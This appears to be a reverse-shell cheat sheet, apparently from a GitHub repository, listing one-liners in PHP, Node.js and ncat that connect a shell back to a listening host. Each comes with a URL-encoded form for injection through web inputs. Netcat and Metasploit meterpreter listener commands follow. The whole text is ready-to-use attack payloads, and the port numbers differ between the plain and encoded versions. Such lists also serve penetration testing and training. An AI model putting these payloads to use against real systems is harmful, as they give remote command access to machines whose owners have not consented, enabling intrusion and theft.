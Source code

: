 > REVERSE
# PHP 
php -r '$sock=fsockopen("127.0.0.1",1337);exec("sh <&3 >&3 2>&3");'
encoded uri : php%20-r%20'$sock=fsockopen(%22127.0.0.1%22,1024);exec(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'

# NODE JS
require('child_process').exec('nc -e sh 127.0.0.1 1337')
encoded uri : require('child_process').exec('nc%20-e%20sh%20127.0.0.1%201024');

# NETCAT 
ncat 127.0.0.1 1024 -e sh
encoded uri : ncat%20127.0.0.1%201024%20-e%20sh


> LISTENER
# NETCAT
$ ncat -lvnp 1024

# MSFCONSOLE
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1024; exploit"
